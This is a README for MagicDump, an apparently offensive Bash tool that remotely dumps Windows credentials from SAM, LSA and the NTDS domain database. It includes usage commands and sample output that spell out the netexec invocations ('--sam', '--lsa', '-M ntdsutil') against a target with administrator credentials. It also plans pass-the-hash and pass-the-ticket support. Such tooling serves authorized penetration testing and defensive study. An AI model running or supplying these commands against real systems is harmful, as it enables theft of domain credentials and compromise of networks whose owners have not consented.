 # MagicDump

MagicDump is an automated tool designed to remotely dump credentials from Windows machines, including SAM, LSASS, NTDS, and DPAPI. It simplifies the process of extracting sensitive information, providing organized output and support for multiple authentication methods.

<br>

---

<br>

## Features
- **Credential Dumping**: Automates dumping of SAM, LSASS, NTDS, and DPAPI credentials.
- **Flexible Authentication**:
  - Username and Password Authentication.
  - (Upcoming) Pass-the-Hash and Pass-the-Ticket.
- **Organized Output**:
  - Logs actions in JSON format.
  - Saves dumps and logs to `~/.magicdump/`.
- **Real-Time Feedback**: Displays actions on the screen as they happen.

<br>

---

<br>

## Requirements
- Bash Shell
- Tools for credential dumping (e.g., `impacket`, `netexec`, etc.)

<br>

---

<br>

## Installation
Clone the repository:
```bash
git clone https://github.com/Mag1cByt3s/MagicDump.git
cd MagicDump
```

<br>

Make the script executable:
```bash
chmod +x MagicDump
```

<br>

---

<br>

## Usage
Run the script with the required options:
```bash
./MagicDump -t <target_ip> -u <username> -p <password>
```

<br>

### Arguments
- `-t`: specify the target IP address
- `-u`: specify the username to authenticate as
- `-p`: specify the password

<br>

For help:
```bash
./MagicDump -h
```

<br>

---

<br>

## Example
```bash
./MagicDump -t 192.168.1.100 -u Administrator -p SuperSecretPass123
```

<br>

Output:
```bash
==============================
       MagicDump v1.0       
==============================
[INFO] Starting MagicDump against target 192.168.1.100
[INFO] Authenticating as user 'Administrator'...
[INFO] Starting SAM dump using netexec...
[DEBUG] Running command: nxc smb 192.168.1.100 -u Administrator -p 'SuperSecretPass' --sam > '/home/user/.magicdump/dumps/SAM_dump_192.168.1.100.txt' 2>/dev/null
[DEBUG] SAM dump completed successfully. Output saved to /home/user/.magicdump/dumps/SAM_dump_192.168.1.100.txt
[LOG] Operation: SAM, Status: success
[INFO] SAM dump saved to /home/user/.magicdump/dumps/SAM_dump_192.168.1.100.txt
[INFO] Starting LSA dump using netexec...
[DEBUG] Running command: nxc smb 192.168.1.100 -u Administrator -p 'SuperSecretPass' --lsa > '/home/user/.magicdump/dumps/LSA_dump_192.168.1.100.txt' 2>/dev/null
[DEBUG] LSA dump completed successfully. Output saved to /home/user/.magicdump/dumps/LSA_dump_192.168.1.100.txt
[LOG] Operation: LSA, Status: success
[INFO] LSA dump saved to /home/user/.magicdump/dumps/LSA_dump_192.168.1.100.txt
[INFO] Starting NTDS dump using ntdsutil...
[DEBUG] Running command: nxc smb 192.168.1.100 -u Administrator -p 'SuperSecretPass' -M ntdsutil > '/home/user/.magicdump/dumps/NTDS_dump_192.168.1.100.txt' 2>/dev/null
[DEBUG] NTDS dump completed successfully. Output saved to /home/user/.magicdump/dumps/NTDS_dump_192.168.1.100.txt
[LOG] Operation: NTDS, Status: success
[INFO] NTDS dump saved to /home/user/.magicdump/dumps/NTDS_dump_192.168.1.100.txt
[INFO] Dumping complete. Logs saved to /home/user/.magicdump/logs/report_192.168.1.100_20250104140000.json.
```

<br>

---

<br>

## Logfile example

```json
{
  "target_host": "192.168.1.100",
  "operation_time": "2025-01-04T14:00:00Z",
  "credentials_dumped": {
    "SAM": {
      "status": "success",
      "file_path": "/home/user/.magicdump/dumps/SAM_dump_192.168.1.100.txt"
    },
    "LSA": {
      "status": "success",
      "file_path": "/home/user/.magicdump/dumps/LSA_dump_192.168.1.100.txt"
    },
    "NTDS": {
      "status": "success",
      "file_path": "/home/user/.magicdump/dumps/NTDS_dump_192.168.1.100.txt",
      "method": "ntdsutil"
    }
  },
  "warnings": [],
  "logs": [
    "Starting MagicDump against target 192.168.1.100",
    "Authenticating as user 'Administrator'...",
    "Starting SAM dump using netexec...",
    "SAM dump saved to /home/user/.magicdump/dumps/SAM_dump_192.168.1.100.txt",
    "Starting LSA dump using netexec...",
    "LSA dump saved to /home/user/.magicdump/dumps/LSA_dump_192.168.1.100.txt",
    "Starting NTDS dump using ntdsutil...",
    "NTDS dump saved to /home/user/.magicdump/dumps/NTDS_dump_192.168.1.100.txt",
    "Dumping complete. Logs saved to /home/user/.magicdump/logs/report_192.168.1.100_20250104140000.json."
  ]
}
```

<br>

---

<br>

## Roadmap
- Add support for Pass-the-Hash and Pass-the-Ticket authentication.
- Integrate more advanced credential dumping techniques.
- Encrypt logs and dumps for security.

<br>

---

<br>

## License
[GPLv3 License](LICENSE)

<br>

---

<br>

## Disclaimer
**MagicDump is intended for authorized use only.** Ensure you have permission before using this tool on any system.
